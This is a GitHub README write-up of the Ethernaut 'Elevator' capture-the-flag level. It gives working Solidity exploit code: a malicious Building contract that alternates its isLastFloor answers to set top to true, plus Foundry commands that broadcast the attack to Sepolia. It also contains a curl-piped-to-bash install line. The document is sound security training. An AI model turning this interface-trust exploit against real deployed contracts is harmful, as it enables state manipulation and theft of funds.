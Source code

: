 # Ethernaut Level: Elevator - Smart Contract Auditing Journey

## Introduction
Hello! In this repository, I've solved the **Elevator** level as part of my Ethernaut challenges. I'm learning smart contract auditing by solving one level per day, and this folder (`levels/elevator/`) contains everything related to it.

**Goal:** Set the `top` variable to `true` by exploiting the `goTo` function.  
**Tools:** Foundry (for scripting and testing), Sepolia testnet.  
**Solved Date:** October 25, 2025 (Day 12).  
**Success:** Verified on the Ethernaut site!

## Contract Overview
This contract simulates an elevator that relies on an external `Building` interface to determine if a floor is the top. The `goTo` function trusts the caller as the Building, allowing state manipulation through interface abuse.

**Key Code Snippet (from src/Elevator.sol):**
```solidity
interface Building {
    function isLastFloor(uint256) external returns (bool);
}

contract Elevator {
    bool public top;
    uint256 public floor;

    function goTo(uint256 _floor) public {
        Building building = Building(msg.sender);  // Vulnerable: Trusts msg.sender as Building!

        if (!building.isLastFloor(_floor)) {
            floor = _floor;
            top = building.isLastFloor(floor);  // Second call in same interface
        }
    }
}
```

## Vulnerability Analysis
**Main Issue: Blind Trust in External Interface (Caller as Building)**  
- The `goTo` function casts `msg.sender` to the `Building` interface without verification, allowing any contract to implement `isLastFloor` maliciously.  
- **Security Impact:** An attacker can return `false` on the first call (to set the floor) and `true` on the second (to set `top = true`), bypassing the logic. This exploits interface polymorphism without access controls.  
- **Audit Tip:** Never trust external interfaces without validation (e.g., whitelisting or signatures). Use tools like Slither to detect unsafe casts (`slither . --detect interface-trust`).

**Example:** Caller contract returns `false` for first `isLastFloor(1)` (floor set), then `true` for second `isLastFloor(floor)` (top set).

## Solution Steps
The attack: Deploy a malicious `Building` contract that alternates `isLastFloor` returns using state, then call `goTo` to manipulate `top`.

1. **Setup:** Create Foundry project, set target instance address in script.
2. **Run Attack:** `forge script script/ElevatorSolution.s.sol --rpc-url $SEPOLIA_RPC_URL --broadcast`.
3. **Verify:** Check `top()` returns `true`, submit on Ethernaut site.

**Key Attack Code Snippet (from src/MaliciousBuilding.sol and script/ElevatorSolution.s.sol):**
```solidity
// Malicious Building (src/MaliciousBuilding.sol)
contract MaliciousBuilding is Building {
    bool public calledOnce = false;
    Elevator public elevator;

    constructor(Elevator _elevator) {
        elevator = _elevator;
    }

    function isLastFloor(uint256) external override returns (bool) {
        if (calledOnce) {
            calledOnce = false;
            return true;  // Second call: Set top = true
        } else {
            calledOnce = true;
            return false;  // First call: Allow floor set
        }
    }

    function attack() external {
        elevator.goTo(1);  // Trigger exploit
    }
}

// Script Excerpt (script/ElevatorSolution.s.sol)
MaliciousBuilding malicious = new MaliciousBuilding(elevatorInstance);
malicious.attack();
```

## Test and Output
- **Local Test:** Run `anvil` and `forge test`—simulates alternate returns and top set.
- **Testnet Output Example:** Console log: "Before attack, Top: false", "After attack, Top: true".

## Key Learnings
- **Auditing Skill:** Validate external calls and interfaces—simulate with malicious implementations in Foundry.
- **EVM Concept:** Interface casting assumes correct implementation; abuse via custom contracts.
- **Prevention:** Whitelist trusted addresses or use static calls; avoid dynamic interfaces.
- **Next Step:** Extend script to test multiple floors or add revert simulation.

## Installation & Run
1. Install Foundry: `curl -L https://foundry.paradigm.xyz | bash`.
2. `cd levels/elevator`.
3. Set `.env`: `PRIVATE_KEY=your_key` and `SEPOLIA_RPC_URL=your_rpc`.
4. Run script: `forge script script/ElevatorSolution.s.sol --rpc-url $SEPOLIA_RPC_URL --broadcast -vvvv`.

If you have questions, comment on the issue or mention me on X (@0xZHD_X)! Next level: Privacy. 🚀

---

**License:** MIT  
**Author:** [0xZHD] - Smart Contract Auditor Learner  
**X:** [Zahedul I Sadik](@0xZHD_X)  
**References:** [Ethernaut Docs](https://ethernaut.openzeppelin.com/)